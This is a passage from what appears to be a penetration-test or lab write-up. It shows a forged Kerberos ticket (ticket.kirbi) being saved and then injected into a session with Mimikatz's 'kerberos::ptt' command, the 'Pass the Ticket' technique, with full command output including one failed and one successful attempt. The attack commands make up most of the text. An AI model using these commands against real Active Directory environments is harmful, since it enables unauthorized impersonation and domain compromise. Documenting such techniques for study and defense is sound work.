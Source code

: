 ```sh
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

PS C:\ticket> ls

    Directory: C:\ticket

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         7/3/2024   3:15 PM           1499 ticket.kirbi
```



armed with this forged ticket, i injected it into our current session using the "Pass the Ticket" technique:

```sh
Invoke-Mimikatz -Command '"kerberos::ptt C:\ticket\ticket.kirbi"'
```

```sh
PS C:\ticket> Invoke-Mimikatz -Command '"kerberos::ptt C:\ticket\krbtgt_tkt.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::ptt C:\ticket\krbtgt_tkt.kirbi

* File: 'C:\ticket\krbtgt_tkt.kirbi': ERROR kuhl_m_kerberos_ptt_file ; kuhl_m_file_readData (0x00000002)

PS C:\ticket> Invoke-Mimikatz -Command '"kerberos::ptt C:\ticket\ticket.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::ptt C:\ticket\ticket.kirbi

* File: 'C:\ticket\ticket.kirbi': OK

```
